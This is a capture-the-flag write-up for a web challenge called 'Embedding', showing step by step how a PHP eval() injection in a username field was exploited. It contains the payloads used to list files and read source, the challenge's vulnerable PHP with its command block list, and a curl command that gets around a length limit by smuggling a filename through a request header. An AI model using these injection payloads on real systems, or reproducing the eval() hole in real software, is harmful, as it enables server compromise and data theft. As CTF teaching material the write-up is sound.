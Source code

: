 # Web-Embedding
URL of the challenge: [http://138.91.58.10/Embedding/] (Embedding)

In the page, we got a input box
```html
<input name="username" placeholder="Enter Your UserName Here">
```

We tried to input 
> getcwd()

The result changed to
> /var/www/html/Embedding welcome

Thus, we knew that the challenge is about <font color="#f03c15"> Eval() Vulnerability </font>

Then, we put 
> print_r(scandir(getcwd()))

to get all file in this directory.

The result changed to
> Array ( \[0\] => . \[1\] => .. \[2\] => fl@g.php \[3\] => index.php ) 1 welcome

Finally, we knew that the flag is stored in fl@g.php

Before we get the source code of fl@g.php, we should know the constants of the input first

Thus, we typed
> show_source(end(scandir(getcwd())))

```php
<html> 
<head><title>Embedded Challenge </title> </head>
<body>
<form> 
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<?php




if(isset($_GET["username"]))
{
    $wl = preg_match('/^[a-z0-9\(\)\_\.\']+$/i', $_GET["username"]);
    $comn=preg_match('/^(rm|cp|mv|cd|grep|find|cat|Y2F0|ZmluZA|cm0|Y3A|bXY|Z3JlcA|whoami|)+$/i', $_GET["username"]);

    if($wl === 0 || $comn===1 || strlen($_GET["username"]) > 40) {
        die("Bad Character Detected or you Break The Limit ");
   }
   $username=$_GET['username'];
    $eval=eval("echo ".$username.";");
    echo(" welcome ".$eval);
}
?> 
```

Thus, we knew that the input only can be\
<font color="#f03c15">a-z</font>, 
<font color="#f03c15">0-9</font>, 
<font color="#f03c15">(</font>, 
<font color="#f03c15">)</font>, 
<font color="#f03c15">_</font>, 
<font color="#f03c15">.</font>, 
<font color="#f03c15">'</font> and the string length must be smaller than 41

First we try that
> read_file(next(array_reverse(scandir('.'))))

However, the string length is 43, we cannot get the result.\

Thus, we found that we can set the header of the request to store variable fl@g/.php\

Then, we use curl command in console to get the source code of fl@g/.php

> curl -s -H "Flag: fl@g.php" "http://138.91.58.10/Embedding/?username=show_source(end(getallheaders()))"

```html 
<html>
<head><title>Embedded Challenge </title> </head>
<body>
<form>
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />$flag</span><span style="color: #007700">=</span><span style="color: #DD0000">"0xL4ugh{Z!90o_S@y_W3lC0m3}"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>1 welcome
```

Finally, we got the flag ^.^

> 0xL4ugh{Z!90o_S@y_W3lC0m3}
